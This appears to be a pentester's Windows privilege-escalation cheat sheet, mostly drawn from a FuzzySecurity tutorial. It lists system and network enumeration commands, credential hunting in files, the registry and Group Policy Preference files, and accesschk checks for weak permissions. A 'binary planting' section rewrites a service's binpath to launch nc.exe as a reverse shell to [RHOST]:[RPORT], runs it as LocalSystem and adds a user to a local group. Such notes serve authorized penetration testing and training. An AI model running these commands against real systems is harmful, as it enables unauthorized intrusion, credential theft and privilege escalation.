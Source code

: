 
// What system are we connected to?
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

// Get the hostname and username (if available)
hostname
echo %username%

// Get users
net users
net user [username]

// Networking stuff
ipconfig /all

// Routing tables
route print

// ARP cache table for all interfaces
arp -A

// Active network connections
netstat -ano

// Firewall fun (Win XP SP2+ only)
netsh firewall show state
netsh firewall show config

// Scheduled tasks
schtasks /query /fo LIST /v

// List all started services (DISPLAY_NAME)
net start

// List running processes
tasklist

// Mapping of running processes to started services
tasklist /SVC

// List all drivers
DRIVERQUERY

// WMIC fun (Win 7/8 -- XP requires admin)
wmic /?

// WMIC: check patch level
wmic qfe get Caption,Description,HotFixID,InstalledOn

// Search pathces for given patch
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."

// AlwaysInstallElevated fun
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

### Quick wins
---

// Quick wins
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /si password *.xml *.ini *.txt
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

// Policy Preference files that may have "cPassword" attribute set:
Groups.xml: documented password encryption, can be decrypted **SOS**
Services\Services.xml: Element-Specific Attributes
ScheduledTasks\ScheduledTasks.xml: Task Inner Element, TaskV2 Inner Element, ImmediateTaskV2 Inner Element
Printers\Printers.xml: SharedPrinter Element
Drives\Drives.xml: Element-Specific Attributes
DataSources\DataSources.xml: Element-Specific Attributes

// Service permissions
sc query
sc qc [service_name]

### Accesschk
---

// Accesschk (part of "sysinternals")
accesschk.exe /accepteula (need to add that if you don't have GUI. maybe only the first time?)

// List all user permissions
accesschk.exe “domain\user” -a *

// List all service permissions for username
accesschk.exe <username> -c *

// display permissions on every file
accesschk.exe /accepteula -s -d IWAM_BOB c:\*.*
// only Read-Write
acaccesschk.exe /accepteula -s -d IWAM_BOB c:\*.* | find "RW" 

accesschk.exe -ucqv [service_name] 
accesschk.exe -uwcqv "[Group name you belong to]" * 

// Find all weak folder permissions per drive.
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "[Group name you belong to]" c:\

// Find all weak file permissions per drive.
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uwqs "[Group name you belong to]" c:\*.*
---
// Binary planting
sc config [service_name] binpath= "C:\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"
sc config [service_name] obj= ".\LocalSystem" password= ""
sc qc [service_name] (to verify!)

// add user to local group
net localgroup "Users" IWAM_BOB /add

Mostly all of this taken from http://www.fuzzysecurity.com/tutorials/16.html [1]

Links:
---
[1]: http://www.fuzzysecurity.com/tutorials/16.html
[2]: https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
[3]: http://www.youtube.com/watch?v=kMG8IsCohHA
[4]: http://www.youtube.com/watch?v=_8xJaaQlpBo
[5]: http://www.greyhathacker.net/?p=738
